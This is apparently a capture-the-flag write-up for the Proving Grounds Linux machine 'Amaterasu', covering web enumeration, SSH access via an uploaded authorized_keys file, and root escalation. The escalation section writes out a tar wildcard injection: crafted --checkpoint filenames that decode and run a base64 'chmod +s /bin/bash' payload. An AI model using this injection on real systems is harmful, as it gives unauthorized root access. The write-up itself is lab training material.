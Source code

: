```yaml
---
title: "Amaterasu"
date: 2025-06-20
categories:
  - Proving Grounds
  - Linux
tags:
  - Proving Grounds
  - Linux
---
```


# Amaterasu 🔹
<!-- more -->

## Enumeration

![](../assets/Pasted%20image%2020250302170008.png)

Using `feroxbuster` on port `33414`, we find `/info` and `/help`:

![](../assets/Pasted%20image%2020250302170533.png)

![](../assets/Pasted%20image%2020250302170547.png)

![](../assets/Pasted%20image%2020250302170629.png)

## Initial Access

The user `alfredo` has a `.ssh` folder and there is an SSH port open, so we can try to upload an `authorized_keys` file with a public key inside.

![](../assets/Pasted%20image%2020250302190626.png)

```bash
cat id_rsa.pub > authorized_keys.txt
```

![](../assets/Pasted%20image%2020250302190722.png)

![](../assets/Pasted%20image%2020250302190748.png)

Get the flag:

![](../assets/Pasted%20image%2020250302190820.png)

## Privilege Escalation

Transfer `pspy` to the machine and we see a task executing.

![](../assets/Pasted%20image%2020250302194944.png)

![](../assets/Pasted%20image%2020250302194957.png)

We don't have permission to edit the script, but we see that `tar` is using a wildcard, so we can exploit that.

```bash
echo -n 'chmod +s /bin/bash' | base64
> Y2htb2QgK3MgL2Jpbi9iYXNo
touch -- "--checkpoint=1"
touch -- '--checkpoint-action=exec="echo Y2htb2QgK3MgL2Jpbi9iYXNo | base64 -d | bash"'
```

![](../assets/Pasted%20image%2020250302202933.png)

## Post Exploitation

![](../assets/Pasted%20image%2020250302203012.png)
